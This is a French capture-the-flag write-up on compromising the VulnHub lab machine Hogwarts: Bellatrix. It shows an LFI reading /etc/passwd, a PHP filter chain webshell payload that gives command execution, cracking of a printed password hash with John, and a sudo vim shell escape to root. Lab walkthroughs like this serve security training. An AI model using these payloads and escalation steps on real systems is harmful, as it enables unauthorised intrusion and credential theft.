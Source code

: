 # Solution du CTF Hogwarts: Bellatrix de VulnHub

Le CTF [Hogwarts: Bellatrix](https://vulnhub.com/entry/hogwarts-bellatrix,609/) est un boot2root que je qualifierais de facile. Il y a un peu de jeu de piste mais n'entre jamais dans le mauvais penchant du guessing.

```
Nmap scan report for 192.168.56.64
Host is up (0.00020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4bcec75a9c1f8bcd4703086985c29149 (RSA)
|   256 a12aa8159904cc2a1ee35000f355c2cc (ECDSA)
|_  256 2cd3ec6f4f5b4ae0ea0ac30d2fcb7817 (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: AvadaKedavra
|_http-server-header: Apache/2.4.46 (Ubuntu)
```

Sur le site web on trouve ce texte :

```
ikilledsiriusblackikilledsiriusblackikilledsiriusblackikilledsiriusblack

--- snip ---

ikilledsiriusblackikilledsiriusblackikilledsiriusblackikilledsiriusblack.php
```

et dans le code HTML de la page :

```html
    <!-- 
        Nah...this time there are no clues in the source code ... 
        o yeah, maybe I've already told you a directory .php? :)

    -->

/*

   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }

*/
```

Effectivement je trouve un fichier `ikilledsiriusblack.php` qui semble en tout point identique à la page d'index sauf que si on lui passe le paramètre `file` (ex: `file=/etc/passwd`) on obtient la LFI annoncée :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
--- snip ---
bellatrix:x:1000:1000:Bellatrix,,,:/home/bellatrix:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:127:65534::/run/sshd:/usr/sbin/nologin
lestrange:x:1001:1001::/home/lestrange:/bin/rbash
```

On peut déjà rermarquer la présence du `rbash` (restricted bash) comme login pour le compte `lestrange`.

Je ne perds plus mon temps à faire une injection dans un fichier de log, j'utilise directement la technique de chainage des filtres PHP avec [l'outil de Synacktiv](https://github.com/synacktiv/php_filter_chain_generator) :

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]);?>'
```

Je passe le résultat en paramètre de `file` et il ne reste qu'à rajouter mon paramètre `cmd` pour avoir ma RCE.

Déjà sous la racine web je trouve des fichiers étonnants :

```bash
www-data@bellatrix:/var/www/html$ ls -alR
.:
total 732
drwxr-xr-x 3 root      root        4096 Nov 28  2020  .
drwxr-xr-x 3 root      root        4096 Nov 28  2020  ..
-rw-rw-r-- 1 bellatrix bellatrix 728806 Nov 27  2020  1c19c879fe8ef134c3e051c2d69c0c66.gif
drwxr-xr-x 2 root      root        4096 Nov 28  2020 'c2VjcmV0cw=='
-rw-rw-r-- 1 bellatrix bellatrix    151 Nov 28  2020  ikilledsiriusblack.php
-rw-rw-r-- 1 bellatrix bellatrix   1728 Nov 28  2020  index.php

'./c2VjcmV0cw==':
total 16
drwxr-xr-x 2 root root 4096 Nov 28  2020 .
drwxr-xr-x 3 root root 4096 Nov 28  2020 ..
-rw-r--r-- 1 root root 1237 Nov 28  2020 .secret.dic
-rw-r--r-- 1 root root  117 Nov 28  2020 Swordofgryffindor
```

Le fichier `.secret.dic` est une wordlist de 114 lignes contenant des noms ou mots en rapport avec la saga *Harry Potter*.

Le fichier `Swordofgryffindor` contient le hash pour le compte vu précédemment :

`lestrange:$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0`

Forcément ça ne prend pas long à casser et c'est l'une des caractéristiques des bons CTFs car entre passer une minute ou 2 jours à casser un mot de passe, il n'y a aucune différence au niveau des compétences requises, il suffit de savoir utiliser un outil :

```bash
$ ./john --wordlist=pass.txt hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihateharrypotter (lestrange)     
1g 0:00:00:00 DONE (2022-11-19 11:28) 9.090g/s 1036p/s 1036c/s 1036C/s gryffondor..wingardiumleviosa
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Une fois connecté on trouve une note dans un fichier `readme.txt` :

```bash
lestrange@bellatrix:~$ cat readme.txt
I WANT TO ESCAPE FROM THE PRISION OF AZKABAN

HAHAHAHHAHAHAHAHHAHAHAHHAHAHAHAHHAHAHAHHAHA!!!!

YOU WONT BE ABLE TO ME, POTTER!! I WAS AND STILL AM THE DARK LORD'S MOST 
LOYAL SERVANT.
```

L'utilisatrice a le droit d'exécuter une commande via sudo :

```bash
lestrange@bellatrix:~$ sudo -l
Coincidiendo entradas por defecto para lestrange en bellatrix:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario lestrange puede ejecutar los siguientes comandos en bellatrix:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

La technique est bien sûr d'échapper de vim avec `:!/bin/bash` qui nous donne les droits root :

```bash
lestrange@bellatrix:~$ sudo /usr/bin/vim

root@bellatrix:/home/lestrange# cd /root
root@bellatrix:~# ls
root.txt  script.sh  snap
root@bellatrix:~# cat root.txt
 ____       _ _       _        _      
 |  _ \     | | |     | |      (_)     
 | |_) | ___| | | __ _| |_ _ __ ___  __
 |  _ < / _ \ | |/ _` | __| '__| \ \/ /
 | |_) |  __/ | | (_| | |_| |  | |>  < 
 |____/ \___|_|_|\__,_|\__|_|  |_/_/\_\
  _               _                              
 | |             | |                             
 | |     ___  ___| |_ _ __ __ _ _ __   __ _  ___ 
 | |    / _ \/ __| __| '__/ _` | '_ \ / _` |/ _ \
 | |___|  __/\__ \ |_| | | (_| | | | | (_| |  __/
 |______\___||___/\__|_|  \__,_|_| |_|\__, |\___|
                                       __/ |     
                                      |___/ 

root{ead5a85a11ba466011fced308d460a76}
root@bellatrix:~# cat script.sh
#!/bin/bash

chmod 775 /var/log/auth.log

exit
```

On voit un script qui effectue un chmod sur `auth.log`, il était sans doute destiné à faciliter l'injection de code PHP pour la LFI.

Il y avait aussi un flag dans `/home/bellatrix`. La commande `cd` était restreinte mais les commandes `ls` et cat `non` donc il n'y avait pas de difficultées majeures à obtenir le flag.

*Publié le 19 novembre 2022*
